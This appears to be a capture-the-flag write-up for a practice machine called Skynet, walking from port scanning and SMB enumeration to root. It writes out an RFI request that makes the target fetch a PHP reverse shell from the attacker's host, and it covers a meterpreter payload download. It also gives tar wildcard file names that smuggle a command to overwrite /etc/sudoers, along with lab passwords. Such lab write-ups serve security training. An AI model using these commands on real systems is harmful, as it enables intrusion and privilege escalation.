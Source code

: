 # SKYNET


## Reconnaissance

Runing NMAP reveals the following open ports/services:

    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
    |   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
    |_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
    80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Skynet
    110/tcp open  pop3        Dovecot pop3d
    |_pop3-capabilities: RESP-CODES CAPA UIDL TOP SASL AUTH-RESP-CODE PIPELINING
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    143/tcp open  imap        Dovecot imapd
    |_imap-capabilities: LITERAL+ LOGINDISABLEDA0001 IMAP4rev1 OK post-login more capabilities LOGIN-REFERRALS listed have ID Pre-login IDLE SASL-IR ENABLE
    445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.80%E=4%D=4/19%OT=22%CT=1%CU=40871%PV=Y%DS=2%DC=T%G=Y%TM=5E9CE16
    OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
    OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
    OS:1NW7%O6=M54DST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
    OS:(R=Y%DF=Y%T=40%W=6903%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
    OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
    OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
    OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
    OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
    OS:=S)

    Network Distance: 2 hops
    Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
    |_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: skynet
    |   NetBIOS computer name: SKYNET\x00
    |   Domain name: \x00
    |   FQDN: skynet
    |_  System time: 2020-04-19T18:40:14-05:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2020-04-19T23:40:13
    |_  start_date: N/A


Running gobuster revealed the following directories: 

    /index.html 
    /admin 
    /ai 
    /config 
    /css 
    /js 
    /squirrelmail 
    /.htaccess 
    /.hta 
    /.htpasswd 
    /server-status 
    
    
## Services

**SMB**

Notable output from enum4linux.

     ======================================= 
    |    Share Enumeration on 10.10.2.29    |
     ======================================= 

            Sharename       Type      Comment
            ---------       ----      -------
            print$          Disk      Printer Drivers
            anonymous       Disk      Skynet Anonymous Share
            milesdyson      Disk      Miles Dyson Personal Share
            IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
    SMB1 disabled -- no workgroup available

    [+] Attempting to map shares on 10.10.2.29
    //10.10.2.29/print$     Mapping: DENIED, Listing: N/A
    //10.10.2.29/anonymous  Mapping: OK, Listing: OK
    //10.10.2.29/milesdyson Mapping: DENIED, Listing: N/A
    //10.10.2.29/IPC$       [E] Can't understand response:
    NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
    
    S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)
    
 We now have share list, share permissions and a valid system user.  

 We have anonymous access to the anonymous share.
 I downloaded all of the files in the share and found log files. 
 
 The log file titled log1.txt contains user passwords.
 
 
**HTTP**

![skynet](https://user-images.githubusercontent.com/46513413/79807914-41975500-833a-11ea-923f-1287fde183e5.png)

The site itself is nothing special. The sites fundtions are either a POST request for either "Skynet+search" or "I;m Feeling Lucky" without the actual content of the search bar. 

  /squirrelmail - login page for SquirrelMail Login Webmail
  

## Gaining access

**Squirrel mail:**

Trying the system user **milesdyson** with the list of passwords from the log file reveals that **cyborg007haloterminator** is the valid password.

![mail](https://user-images.githubusercontent.com/46513413/79807912-41975500-833a-11ea-929a-07f7786f2ffa.png)

There are three emails in the inbox. The first one contains the milesdyson SMB share password )s{A&2Z=F^n_E.B\` . One of the other two is *"i can i i everything else . . . . . . . . . . . . . . balls have zero to me to me to me to me to me to me to me to me to"* and the other one is that phrase in binary.


**SMB**

Now that we know Miles' password, we are able to log into the milesdyson SMB share. The file notes/important.txt reveals a hidden directory the Miles has and mentions a CMS.

/45kra24zxs28v3yd

![miles](https://user-images.githubusercontent.com/46513413/79807911-41975500-833a-11ea-88b6-edef5c6bfac9.png)


There was nothing special or manipulatable on this page. The CMS mention in the note prompted me to run another directory bust attempt. Running gobuster again on this directory reveals an administrator directory.


![cms](https://user-images.githubusercontent.com/46513413/79807910-40febe80-833a-11ea-9816-eb1f13913b08.png)


Running searchsploit for cuppa shows one RFI/LFI vulnerability.

I ran the SimpleHTTP python module in a directory that contains my php reverse shell script. When the php script is ran it will call back to my system. 
 
I exploited the RFI vulnerability to call the php reverse shell script on my system. 

    http://10.10.184.129/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.3.104/php-reverse-shell.php

The SKYNET box requested and executed my php script that then called back to my machine listenting on port 1234.

I am now user www-data and can read the user.txt file in /home/milesdyson. 

## Upgrading shell to meterpreter 

Created the payload called shell.elf uisng msfvenom. 

Used msf exploit/multi/handler to listened for the call back.

I used the python SimpleHTTP to host shell.elf.

Using my current shell with SKYNET I went to a directory that I can write in /var/www/html. I used wget to download shell.elf and gave it executable permissions with chmod.

After running this I had a successful meterpreter shell on SKYNET.

![meterpreter](https://user-images.githubusercontent.com/46513413/79807913-41975500-833a-11ea-9d6f-72b93177efa0.png)

## Privilege escalation

I used the metasploit exploit suggester script and uploaded and ran [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

    run post/multi/recon/local_exploit_suggester
    
  Out of the 3 suggested local exploits the [BPF sign extension](https://www.rapid7.com/db/modules/exploit/linux/local/bpf_sign_extension_priv_esc) worked and I was able to obtain a root shell. 
  
  The linpeas output and manual poking around releaved a backups job that gets run and saved to /home/milesdyson/backsups. The script is owned and ran as root using tar for the backups.  

Reading this awsome article by **int0x33** shows excatly how to abuse the wildcard in "tar * " into using file names as command arguments to be able to either run a reverse shell script or add the current user into the sudoers file.
 
I decided to go the sudoers route. I ran "shell" to drop into a normal shell and ran the following to have a proper tty terminals session. 

    python -c 'import pty;pty.spawn("/bin/bash")';
 
I moved to /var/www/html (which is the directory being tar'd) and ran the following.

    echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
    echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
    echo "/var/www/html"  > --checkpoint=1

After short while I ran "sudo -l" with the following results.

    User www-data may run the following commands on skynet:
        (root) NOPASSWD: ALL

I am now able to run "sudo cat /root/root.txt" :)

![root](https://user-images.githubusercontent.com/46513413/79807915-422feb80-833a-11ea-8a7b-a1246d61051c.png)

